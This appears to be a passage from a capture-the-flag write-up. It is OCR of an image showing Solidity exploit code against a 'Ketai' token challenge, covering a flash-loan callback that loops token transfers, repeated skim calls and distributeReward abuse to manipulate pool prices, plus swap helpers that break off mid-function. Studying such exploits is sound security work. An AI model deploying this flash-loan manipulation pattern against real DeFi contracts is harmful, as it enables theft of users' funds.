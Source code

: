 2. Flash Loan Callback and Price Manipulation Loop:

```solidity
function pancakeCall(address sender, uint256 amount0, uint256 amount1, bytes calldata data) external {
    require(msg.sender == address(challenge.ketaiUSDCPair()), "Unauthorized callback");

    for (uint256 c = 0; c < 25; c++) {
        uint256 ketaiBalance = challenge.ketai().balanceOf(address(this));

        // Transfer 10% of Ketai to USDT pair
        challenge.ketai().transfer(address(challenge.ketaiUSDTPair()), ketaiBalance / 10);

        // Exploit skim function to accumulate fees in Ketai contract
        for (uint256 i = 0; i < 200; i++) {
            challenge.ketaiUSDTPair().skim(address(challenge.ketaiUSDTPair()));
        }
        challenge.ketaiUSDTPair().skim(address(this));

        // Swap 90% of Ketai for USDT
        swapKetaiForUSDT(ketaiBalance * 9 / 10);

        uint256 usdtBalance = challenge.usdt().balanceOf(address(this));

        // Exploit distributeReward function
        for (uint256 i = 0; i < 100 / (c + 1); i++) {
            challenge.ketai().distributeReward();
        }

        // Swap USDT back to Ketai
        swapUSDTForKetai(usdtBalance);
    }

    // Repay flash loan with fee
    uint256 repaymentAmount = FLASH_LOAN_AMOUNT * REPAYMENT_FACTOR / REPAYMENT_DIVISOR;
    require(challenge.ketai().balanceOf(address(this)) >= repaymentAmount, "Insufficient Ketai for repayment");
    challenge.ketai().transfer(address(challenge.ketaiUSDCPair()), repaymentAmount);
}
```

3. Token Swapping Helper Functions:

```solidity
function swapKetaiForUSDT(uint256 amount) internal {
    challenge.ketai().approve(address(challenge.router()), type(uint256).max);
    address[] memory path = new address[](2);
    path[0] = address(challenge.ketai());
    path[1] = address(challenge.usdt());
    challenge.router().swapExactTokensForTokensSupportingFeeOnTransferTokens(
        amount, 0, path, address(this), block.timestamp
    );
}

function swapUSDTForKetai(uint256 amount) internal {
    challenge.usdt().approve(address(challenge.router()), type(uint256).max);
    address[] memory path = new address[](2);
    path[0] = address(challenge.usdt());
    path[1] = address(challenge.ketai());
    challenge.router().swapExactTokensForTokensSupportingFeeOnTransferTokens(
        amount, 0, path, address(this), block.timestamp
    );
}

function swapKetaiForUSDC(uint256 amount) internal {
```